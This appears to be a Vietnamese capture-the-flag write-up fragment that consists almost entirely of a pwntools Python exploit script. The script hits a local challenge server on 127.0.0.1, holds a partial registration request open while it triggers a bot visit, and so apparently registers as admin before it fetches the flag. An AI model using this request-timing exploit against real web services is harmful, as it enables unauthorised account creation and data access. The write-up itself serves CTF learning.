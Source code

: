 Chạy đoạn code sau (này mình lấy từ wup của trên discord)

```py
from pwn import *
import time
import requests

HOST, PORT = "127.0.0.1", 3002
data_url = "http://127.0.0.1:8080"

username = "admin"
password = "duc193"

def send_bot():
    r = remote(HOST, PORT)
    request = f"""POST /visit HTTP/1.1\r\nHost: localhost:8080\r\nX-Target: {data_url}\r\nContent-Length: 0\r\n\r\n"""
    r.send(request.encode())
    try:
        resp = r.recv(timeout=5)
    except EOFError:
        pass
    r.close()


if __name__ == "__main__":
    r = remote(HOST, PORT)
    chunk1 = (
        f"POST /register HTTP/1.1\r\n"
        f"Host: 127.0.0.1\r\n"
        f"X-Username: {username}\r\n"
        f"X-Password: {password}\r\n"
        f"Content-Length: 0\r\n"
    ).encode()
    r.send(chunk1)

    send_bot()
    time.sleep(5)
    r.send(b"\r\n\r\n")

    try:
        resp = r.recv(4096, timeout=5)
        print("[main] resp:", resp.decode(errors="ignore"))
    except EOFError:
        pass
    r.close()
    print("\n")
    url = f"http://localhost:3002/flag"
    res = requests.get(url, auth=(username, password))
    print("FLAG:", res.text)
```
